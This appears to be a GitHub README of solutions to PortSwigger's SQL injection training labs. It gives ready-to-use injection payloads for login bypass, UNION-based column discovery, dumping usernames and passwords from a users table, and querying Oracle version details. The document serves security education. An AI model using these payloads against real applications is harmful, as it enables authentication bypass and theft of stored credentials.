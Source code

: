 # SQL-injection
# Port Swigger SQL injection Labs Solutions <tag>

<h3>- Retrieving hidden data</h3>

[1.Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data](https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data)


1. *Solutions*
   1. `'+OR+1=1--` -> Required
   >The server can also respond for the following
   1. `'OR+'1'='1--`
   1. `'OR+'1'='1'--`
   1. `'OR+'1'--`
   1. `'OR+true--`
   1. `'OR+'a'='a'--`
   1. `/OR+1=1--`
   1. `)'OR+1=1-- `
   1. `""OR+1=1--`
   1. `)*OR+1=1--`
   
<h3>- Subverting application logic</h3>

[2.Lab: SQL injection vulnerability allowing login bypass](https://portswigger.net/web-security/sql-injection/lab-login-bypass)

1. *Solutions*

   1. username : `administrator'--` password : `''`
   1. username :`a'OR+1=1--`        password : `''`
  
<h3>- Retrieving data from other database tables</h3>

[3.Lab: SQL injection UNION attack, determining the number of columns returned by the query](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns)

1. *Solutions*

  The first step of such an attack is to determine the number of columns that are being returned by the query.
  The server will responed for `'ORDER+BY+1--` `'ORDER+BY+2--` `'ORDER+BY+3--` that mean there are 3 columns in the database.
   
   1. `'+UNION+SELECT+NULL,NULL,NULL-- `
   1. `'UNION+SELECT+NULL,NULL,NULL--`
   1. `'union+select+null,null,null--`
   
[4.Lab: SQL injection UNION attack, finding a column containing text](https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text)

1. *Solutions*

  The server responed for `'+UNION+SELECT+NULL,'xyz',NULL--` that is mean the second column containing text.
  Make the database retrieve the string: 'IyLLPT' #Noted in the top of the screen,it can be diffrent in your case
   
   1. `'+UNION+SELECT+NULL,'IyLLPT',NULL-- `
   
   
[5.Lab: SQL injection UNION attack, retrieving data from other tables](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables)

1. *Solutions*

  By applying `'+UNION+SELECT+NULL,NULL--` we can say the database has tow columns.
  By applying `'+UNION+SELECT+'abc','xyz'--` we can say the columns have string values.
  To retrieve the contents of the users table we can use the following payload
   `'+UNION+SELECT+username,+password+FROM+users--`
  where `username` is the name of first column ,`password` is the name of second column and `users` is the name of the table in the database.
  
   __Example__
   
   Database name :   USERS 
   
   username | password
------------ | -------------
administrator | bp6w7q9023goawolzuyh
Content in the first column | Content in the second column

 Now to solve the challenge go to Response in Burp Suite from raw search for `administrator` and its password `bp6w7q9023goawolzuyh`

[6.Lab: SQL injection UNION attack, retrieving multiple values in a single column](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column)

1. *Solutions*

   By applying `'+UNION+SELECT+NULL,NULL--` we can say the database has tow columns.
   By applying `'+UNION+SELECT+NULL,'abc'--` we can say the second column has string values.
   Now to retrieve data from only one column we can use the following payload
   `'+UNION+SELECT+NULL,username||'~'||password+FROM+users--`
   
  `||'~'||` will join `username and password` like  `administrator~wet39rb7kc6kt99lq0o6`
   
 Now to solve the challenge go to Response in Burp Suite and get the username~password `administrator~wet39rb7kc6kt99lq0o6`


<h3>- Examining the database in SQL injection attacks</h3>

[7.Lab: SQL injection attack, querying the database type and version on Oracle]()
 
1. *Solutions*

   On Oracle databases, every SELECT statement must specify a table to select FROM. If your UNION SELECT attack does not query from a table, you will still need to include the FROM keyword followed by a valid table name.

There is a built-in table on Oracle called DUAL which you can use for this purpose. For example: UNION SELECT 'abc' FROM DUAL 

   By applying `'+UNION+SELECT+NULL,NULL+FROM+DUAL--` we can say the database has tow columns.
   By applying `'+UNION+SELECT+'abc','xyz'+FROM+DUAL--` we can say the first and second columns have string values.
   to retrieve the version of the database, for Oracle we can use [cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet):

   * SELECT banner FROM v$version
   * SELECT version FROM v$instance
   
   the payload will be like:
   
   `'+UNION+SELECT+banner,NULL+FROM+v$version--`
   `'+UNION+SELECT+version,NULL+FROM+v$instance--`
   
   
 
   
   
   
   
